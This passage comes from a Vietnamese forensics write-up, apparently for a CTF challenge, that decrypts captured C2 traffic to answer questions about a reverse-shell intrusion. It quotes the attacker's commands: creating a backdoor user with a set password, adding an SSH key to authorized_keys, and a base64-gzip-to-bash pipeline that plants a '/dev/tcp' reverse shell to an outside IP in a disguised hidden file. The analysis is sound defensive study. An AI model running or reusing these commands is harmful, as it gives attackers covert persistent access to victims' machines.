    if hashlib.sha256(MAC_KEY + iv + ct).digest() != mac:
        return None
    return unpad(AES.new(ENC_KEY, AES.MODE_CBC, iv).decrypt(ct), AES.block_size).decode(errors="replace")
commands = []
with open("s2c.bin", "rb") as f:
    data = f.read()
offset = 0
while offset + 4 <= len(data):
    length = struct.unpack(">I", data[offset:offset+4])[0]
    offset += 4
    raw = base64.b64decode(data[offset:offset+length])
    offset += length
    plaintext = decrypt(raw)
    if plaintext is None:
        continue
    print(plaintext)
    if plaintext.startswith("CMD "):
        commands.append(plaintext[4:])
```



Vậy command thứ 2 là ls -la /etc

**Đáp án:** `ls -la /etc`

## 8. Which is the second downloaded file in the encrypted reverse shell session? (e.g. /etc/timezone)



Sau khi giải mã traffic, các yêu cầu tải file từ client về C2 xuất hiện với prefix DWNL_FILE

thứ tự xuất hiện:

1. /etc/ssh/sshd_config

2. /etc/hosts

**Đáp án:** `/etc/hosts`

## 9. The attacker created a new user for persistence. Which credentials has been set? (e.g. username:password)



command:

```bash
CMD sudo useradd -m -s /bin/bash backup_usr && echo 'backup_usr:9cq3jPVN6Me1' | sudo chpasswd
```

Phần đầu tạo user mới:

```text
backup_usr
```

Phần sau truyền cặp username:password vào chpasswd:

```text
backup_usr:9cq3jPVN6Me1
```

**Đáp án:** `backup_usr:9cq3jPVN6Me1`

## 10. The attacker wrote something into a specific file to maintain persistence. What is the full path? (e.g. /path/file)

Như đã xác định ở câu 5, prefix dùng để khởi tạo quá trình upload file từ C2 xuống máy nạn nhân là `UPLD_FILE`.

Trong traffic đã giải mã xuất hiện cặp message:

```text
UPLD_FILE /home/kingmaelor/.ssh/authorized_keys
```

Vì file được ghi là authorized_keys, attacker đã đưa SSH public key của mình vào hệ thống để duy trì khả năng truy cập.



**Đáp án:** `/home/kingmaelor/.ssh/authorized_keys`

## 11. In the same file the attacker placed a reverse shell invocation. What are the remote IP and port? (e.g. 10.10.10.0:4444)

Khi decode base64 2 đoạn command xuất trong command được decrypt thì



Command

```text
UPLD_DATA c3NoLWVkMjU1MTkgQUFBQUMzTnphQzFsWkRJMU5URTVBQUFBSU5UNkFITEZKT2h0R2t2NVllRjJ4Z3A1R0NkREJBeVdDSUJTeHBOVEtnNDAgYXNoQHRlYW0uaHRi
```

Decode ra được chuỗi

```text
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINT6AHLFJOhtGkv5YeF2xgp5GCdDBAyWCIBSxpNTKg40 ash@team.htb
```

Decode phần `UPLD_DATA` thu được một SSH public key có định dạng `ssh-ed25519`. Kết hợp với command `UPLD_FILE /home/kingmaelor/.ssh/authorized_keys` ở ngay trước đó, có thể xác định attacker đã ghi public key vào `authorized_keys` để duy trì truy cập SSH. Tuy nhiên đây không phải file chứa reverse shell được nhắc.

Command còn lại

```bash
CMD echo 'H4sIABLFDWoA/5XNQQ7CIBBG4av8K7owMJ20uuQuCBOHFKSBxujtGy9g4gG+9+qWcofdQdqq0JafjxqktE6utBgKDQ1dYAwkasN0D0NhM7wBJXnREXfilR3P7G6rW+i6YPaGJ/jfSXLjMw6pyaqUXfp3EbW2hMv7P3kCreFnE8MAAAA=' | base64 -d | gunzip | bash
```

Command này cho thấy nội dung decode ra là dữ liệu Gzip đã được Base64 encode. Pipeline trên thực hiện lần lượt: Base64 decode → giải nén Gzip → chuyển plaintext trực tiếp cho Bash thực thi



### Decode an toàn

```bash
echo 'H4sIABLFDWoA/5XNQQ7CIBBG4av8K7owMJ20uuQuCBOHFKSBxujtGy9g4gG+9+qWcofdQdqq0JafjxqktE6utBgKDQ1dYAwkasN0D0NhM7wBJXnREXfilR3P7G6rW+i6YPaGJ/jfSXLjMw6pyaqUXfp3EbW2hMv7P3kCreFnE8MAAAA=' | base64 -d | gunzip
```



Kết quả ra được

```bash
mkdir -p /home/kingmaelor/.local/share && echo 'bash -i >& /dev/tcp/141.101.64.3/53 0>&1' > /home/kingmaelor/.local/share/.systemd-helper && chmod +x /home/kingmaelor/.local/share/.systemd-helper
```

cho thấy attacker tạo file `/home/kingmaelor/.local/share/.systemd-helper` và ghi vào đó lệnh:

```bash
bash -i >& /dev/tcp/141.101.64.3/53 0>&1
```

Trong Bash, /dev/tcp/<IP>/<port> được dùng để mở kết nối TCP tới máy từ xa. Vì vậy reverse shell sẽ kết nối tới IP 141.101.64.3 qua port 53.

**Đáp án:** `141.101.64.3:53`
